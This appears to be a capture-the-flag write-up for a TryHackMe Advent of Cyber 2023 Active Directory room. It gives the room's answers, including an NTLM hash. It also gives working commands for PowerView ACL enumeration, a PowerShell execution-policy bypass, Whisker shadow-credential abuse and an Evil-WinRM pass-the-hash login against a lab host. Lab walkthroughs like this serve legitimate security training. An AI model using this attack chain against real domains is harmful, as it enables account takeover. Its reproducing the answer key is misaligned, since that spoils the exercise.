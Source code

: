 # Advent of Cyber 2023

Day 11 - Active Directory 

-----------------------------------------

- What is the hash of the vulnerable user?	
	- `03E805D8A8C5AA435FB48832DAD620E3`

- What is the content of flag.txt on the Administrator Desktop?
	- `THM`


<details>
Steps:

First we need to find  msDS-KeyCredentialLink if there any write privilege

```
cd C:\Users\hr\Desktop
powershell -ep bypass
. .\PowerView.ps1
```

cd C:\Users\hr\Desktop moves to the folder containing all the exploitation tools.
powershell -ep bypass will bypass the default policy for arbitrary PowerShell script execution.
. .\PowerView.ps1 loads the PowerView script into the memory.


At this point, we can enumerate the privileges by running:

```
Find-InterestingDomainAcl -ResolveGuids
```

As you may see, this command will return all users' privileges. Since we are specifically looking for the current user "hr", we need to filter out using:

```
Where-Object { $_.IdentityReferenceName -eq "hr" }  
```

We're interested in the current user, the vulnerable user, and the privilege assigned. We can filter that out by running:

```
Select-Object IdentityReferenceName, ObjectDN, ActiveDirectoryRights
```

Now you can run the command

```
Find-InterestingDomainAcl -ResolveGuids | Where-Object { $_.IdentityReferenceName -eq "hr" } | Select-Object IdentityReferenceName, ObjectDN, ActiveDirectoryRights
```

Then it returns this line

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/e5570a2f-c282-46ed-8392-3227bbf9806d)

Then Using Whisker is straightforward: once we have a vulnerable user, we can run the add command from Whisker to simulate the enrollment of a malicious device, updating the msDS-KeyCredentialLink attribute

```
.\Whisker.exe add /target:vansprinkles
```

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/48dae884-a197-4abd-b6a1-6786bdb4d178)


After that we can use Rebeus tool to impersonate the authentication.

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/29fa4621-7544-42de-9650-508b769c5491)

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/f68f9924-d22a-4082-b040-f3a9a9da7aa0)

You can now execute a pass-the-hash attack using the NTLM hash obtained from the previous command. This attack involves leveraging the encrypted password stored in the Domain Controller rather than relying on the plaintext password.

To do this, you can use Evil-WinRM, a tool for remotely managing Windows systems abusing the Windows Remote Management (WinRM) protocol.

```
ruby evil-winrm.rb -i 10.10.140.33 -u vansprinkles -H 03E805D8A8C5AA435FB48832DAD620E3
```

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/472e845a-05a1-4483-9d12-e3ee61d5e563)

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/dc5e4ec0-8847-49b9-9ad6-7b915832a0ff)

</details>
